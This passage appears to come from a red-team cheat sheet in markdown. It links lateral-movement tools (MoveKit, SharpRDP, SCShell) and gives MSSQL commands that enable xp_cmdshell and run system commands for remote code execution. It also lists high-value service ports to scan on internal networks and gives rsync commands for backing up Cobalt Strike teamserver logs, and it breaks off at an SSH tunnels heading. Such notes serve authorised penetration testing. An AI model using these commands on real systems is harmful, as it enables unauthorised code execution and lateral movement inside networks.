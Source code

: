 ### MoveKit
---
[MoveKit](https://github.com/0xthirteen/MoveKit) and the required two assemblies: [SharpRDP](https://github.com/0xthirteen/SharpRDP) + [SharpMove](https://github.com/0xthirteen/SharpMove).

Use `WMI` or the Service binpath modifcation technique *([SCShell](https://github.com/Mr-Un1k0d3r/SCShell) by [Mr-Un1k0d3r](https://twitter.com/MrUn1k0d3r))*

### MSSQL
---
Check if xp_cmdshell is enabled

`SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name = 'xp_cmdshell';`

Enable advanced options

`EXEC('sp_configure ''show advanced options'', 1; reconfigure;');`

Enable xp_cmdshell

`EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;');`

RCE

`exec master.sys.xp_cmdshell 'whoami'`

## Nmap
HVT ports for some quick wins on discovered subnets *(mostly when on an internal network)*
- Java RMI: `1090,1098,1099,4444,11099,47001,47002,10999`
- WebLogic: `7001-7004, 8000-8003,9000-9003,9503,7070,7071`
- JDWP: `45000,45001`
- JMX: `8686,9012,50500`
- GlassFish: `4848` 
- jBoss: `11111,4444,4445` 
- Cisco Smart Install: `4786` 
- HP Data Protector: `5555,5556`
- Apache Solr: `8983,8984`

## Misc
### Backup with Rsync
---
Backup CobaltStrike Logs

`rsync -avzh -e "ssh -i /path/to/private.ky" root@TEAMSERVER:/path/to/cobaltstrike/logs/ /path/to/local/destination/folder`

OR using your default `$HOME/.ssh/id_rsa`

`rsync -avzh -e "ssh" root@TEAMSERVER:/path/to/cobaltstrike/logs/ /path/to/local/destination/folder`

### SSH Tunnels
---
#### Access internal box:
